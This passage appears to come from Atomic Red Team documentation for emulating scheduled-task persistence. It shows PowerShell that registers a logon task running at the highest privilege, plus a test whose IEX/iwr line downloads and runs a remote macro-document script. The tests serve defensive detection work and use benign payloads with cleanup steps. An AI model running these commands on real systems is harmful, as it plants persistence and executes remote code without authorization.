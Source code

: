 **auto_generated_guid:** af9fd58f-c4ac-4bf2-a9ba-224b71ff25fd

#### Attack Commands: Run with `powershell`!

```powershell
$Action = New-ScheduledTaskAction -Execute "calc.exe"
$Trigger = New-ScheduledTaskTrigger -AtLogon
$User = New-ScheduledTaskPrincipal -GroupId "BUILTIN\Administrators" -RunLevel Highest
$Set = New-ScheduledTaskSettingsSet
$object = New-ScheduledTask -Action $Action -Principal $User -Trigger $Trigger -Settings $Set
Register-ScheduledTask AtomicTask -InputObject $object
```

#### Cleanup Commands:

```powershell
Unregister-ScheduledTask -TaskName "AtomicTask" -confirm:$false >$null 2>&1
```

<br/>
<br/>

## Atomic Test #5 - Task Scheduler via VBA

This module utilizes the Windows API to schedule a task for code execution (notepad.exe). The task scheduler will execute "notepad.exe" within
30 - 40 seconds after this module has run

**Supported Platforms:** Windows

**auto_generated_guid:** ecd3fa21-7792-41a2-8726-2c5c673414d3

#### Inputs:

| Name       | Description             | Type   | Default Value |
| ---------- | ----------------------- | ------ | ------------- |
| ms_product | Maldoc application Word | string | Word          |

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-MalDoc -macroFile "PathToAtomicsFolder\T1053.005\src\T1053.005-macrocode.txt" -officeProduct "#{ms_product}" -sub "Scheduler"
```

#### Cleanup Commands:

```powershell
Unregister-ScheduledTask -TaskName "Run Notepad" -Confirm:$false
```

#### Dependencies: Run with `powershell`!
